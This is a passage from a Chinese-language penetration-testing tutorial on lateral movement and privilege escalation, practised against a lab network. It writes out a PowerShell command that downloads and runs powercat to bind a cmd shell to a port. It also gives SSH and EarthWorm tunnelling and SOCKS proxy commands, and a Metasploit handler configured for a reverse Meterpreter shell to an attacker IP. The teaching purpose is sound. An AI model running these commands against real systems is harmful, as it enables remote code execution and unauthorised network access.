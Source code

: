PowerCat 是 netcat 的 PowerShell 版本，它允许本地执行，也可远程执行。常用的远程执行命令如下，下载 PowerShell 脚本进行执行，它会在本地监听 8000 端口，并关联 cmd：

```java
powershell "IEX (New-Object
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat
-l -p 8000 -e cmd"
```

然后攻击者主动连接 8000 端口，即可获取 shell 权限。

#### 4.SSH

几乎所有的 Linux/Unix 服务器都会支持 SSH 协议，在针对此类操作系统的攻击时就可以派上用场，用它来做代理和转发。

常用命令如下：

```java
＃通过跳板机访问目标IP
ssh -CNfg -L 2121:{目标IP}:21 root@{跳板机IP}
＃访问攻击者IP的2121端口，即是访问目标IP
ssh -CNfg -R 2121:BIP:{目标IP} root@{攻击者IP}
```

#### 5.EarthWorm

[EarthWorm](https://github.com/idlefire/ew) 是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通信，用于复杂网络环境下的数据转发。

它的常用命令如下：

```java
# 在目标机器中开启SOCKS代理
ew -s ssocksd -l 888
# 在跳板机上执行如下命令实现数据透传到目标机器上，即将1080端口数据转发到目标IP的888端口上
ew -s lcx_tran -l 1080 -f {目标机器IP} -g 888
```

### 权限提升

有时我们利用 Web 漏洞拿到的系统权限是有限制的，为了获取更高的权限，我们就常常使用一些提权的利用方法来实现，下面介绍几种在 Windows 平台下比较常用的提权方法。
> 补充：为方便本地虚拟机与主机互联测试，我修改了原靶场虚拟机的 IP 地址，将192.168.52.xx 都更改为 192.168.69.xx。

#### 1.利用系统/软件漏洞提权

操作系统本身也有一些漏洞，特别是内核漏洞，常常用来帮助攻击者拿到更高的权限。还有一些拥有驱动程序的软件，比如杀毒软件，这些软件的权限都比较高，如果存在漏洞被利用，也可用于提权。

下面以靶场为例来实践练习下，先在攻击者本地开启监听端口，以等待后门回连：

```java
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.69.1 ＃攻击者IP
LHOST => 192.168.69.1
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.69.1:4444
```
